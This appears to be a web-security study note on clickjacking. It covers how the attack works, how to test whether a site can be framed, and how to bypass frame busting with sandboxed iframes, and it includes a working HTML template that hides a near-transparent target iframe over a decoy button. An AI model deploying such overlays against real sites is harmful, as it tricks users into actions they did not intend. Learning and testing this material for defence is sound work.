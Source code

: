 ## Clickjacking (UI Redressing)

- **What it is**
  - An interface-based attack where users are tricked into clicking actionable content on a hidden website
  - Works by overlaying invisible, actionable elements over visible decoy content
  - Differs from CSRF as it requires user interaction (clicking) rather than forging entire requests
  - Not mitigated by CSRF tokens since all requests happen on-domain within a legitimate session
  - Exploits trust in web interfaces rather than web applications themselves

- **How to identify vulnerable applications**
  - Test if the target website can be framed:
    - Create a simple HTML page with an iframe containing the target website
    - If the page loads in the iframe, it may be vulnerable
  - Check for absence of protective headers:
    - Missing X-Frame-Options header
    - Missing or weak Content-Security-Policy frame-ancestors directive
  - Test if frame busting scripts can be bypassed:
    - Try using iframe with sandbox attribute: `sandbox="allow-forms allow-scripts"`
    - If the website still loads, frame busting may be ineffective

- **How to construct a basic clickjacking attack**
  - Create an HTML page with two layers:
    - Bottom layer: Decoy website content (visible to user)
    - Top layer: Target website in transparent iframe (invisible to user)
  - Basic HTML structure:
    ```html
    <head>
      <style>
        #target_website {
          position: relative;
          width: 128px;
          height: 128px;
          opacity: 0.00001;
          z-index: 2;
        }
        #decoy_website {
          position: absolute;
          width: 300px;
          height: 400px;
          z-index: 1;
        }
      </style>
    </head>
    <body>
      <div id="decoy_website">
        <!-- Decoy content (e.g., "Click here to win a prize!") -->
        <button>Click me!</button>
      </div>
      <iframe id="target_website" src="https://vulnerable-website.com"></iframe>
    </body>
    ```
  - Position the transparent iframe precisely over the decoy element to capture clicks
  - Use absolute and relative positioning to ensure precise overlap regardless of screen size
  - Set z-index to control stacking order (iframe above decoy content)
  - Use opacity near 0 to make iframe invisible (typically 0.00001 to avoid browser protections)
